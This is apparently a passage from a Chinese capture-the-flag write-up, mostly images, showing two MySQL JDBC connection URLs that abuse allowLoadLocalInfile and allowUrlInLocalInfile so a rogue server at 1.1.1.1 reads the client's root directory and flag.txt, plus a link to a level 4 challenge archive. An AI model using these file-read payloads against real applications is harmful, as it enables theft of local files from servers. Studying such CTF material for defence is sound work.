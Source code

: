 [![](assets/1709282823-b7c24cd79dc6fc5cc313e09800bcf8c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162754-6f4846b8-d6dc-1.png)

```plain
mysql://1.1.1.1:3306/test?user=fileread_file:///.&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#

mysql://1.1.1.1:3306/test?user=fileread_file:///flag.txt&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#
```

[![](assets/1709282823-f853703078ab72c8f4f1c4f8bfc998dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162800-72bea9fe-d6dc-1.png)

![](assets/1709282823-c1a690c3008373b105f447e452f0cfec.gif)关卡 4.zip (24.115 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240229162916-a07baeb4-d6dc-1.zip)
